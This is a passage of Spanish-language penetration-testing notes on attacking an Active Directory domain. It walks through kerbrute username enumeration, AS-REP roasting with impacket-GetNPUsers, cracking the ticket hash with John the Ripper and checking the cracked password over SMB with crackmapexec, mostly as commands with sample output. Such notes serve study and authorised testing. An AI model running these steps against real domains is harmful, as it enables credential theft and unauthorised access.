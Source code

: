 - En el caso que encontráramos carpetas relevantes como nombres de usuario, lo más recomendable es hacernos un diccionario con dichos nombres para posteriormente utilizarlos en ataques de fuerza bruta.


#### KERBEROS (ASREP ROAST):

1. Si tenemos un diccionario con posibles usuarios podemos intentar de validarlos en el domino a través del protocolo *kerberos* con la herramienta *kerbrute*:

```shell
$ kerbrute -dc-ip 10.10.10.50 -domain contoso.local -users usuarios.txt

[*] Valid user => lisa
[*] Valid user => john [NOT PREAUTH]
[*] No passwords were discovered :'(
```

2. Si tenemos la suerte de encontrar algún usuario como el anterior (*john*) que no necesita de autenticación previa de kerberos, podemos hacernos pasar por ese usuario contra la validación del DC.

3. Con este comando podemos generarnos un TGT (Ticket Granting Ticket) para el usuario *john*:

```shell
$ impacket-GetNPUsers contoso.local/john -no-pass

[*] Getting TGT for john
...

$krb5asrep$23$john@contoso.local:j34598erwjher9t459tertgh9564754h$9rtey456yh945y9456dssdsdddk4458dff8f...
```

4. Una vez tenemos el TGT lo guardamos en una archivo llamado "hash" y podemos intentar crackearlo con *john the ripper*:

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
...

mypassword123 (krb5asrep$23$john@CONTOSO.LOCAL)
...
```


#### VALIDANDO CREDENCIALES POR SMB:

5. Una vez conseguido el password vamos a intentar validarnos con las credenciales obtenidas:

```shell
$ crackmapexec smb 10.10.10.50 -u 'john' -p 'mypassword123'
...

SMB    10.10.10.50    445    DC01    [+] CONTOSO.local\john:mypassword123
...
```

- Nos da un [+], esto significa que las credenciales son válidas pero no tenemos permisos de administrador o la capacidad de administración remota con WinRM, en ese caso saldría un "Pwned!".
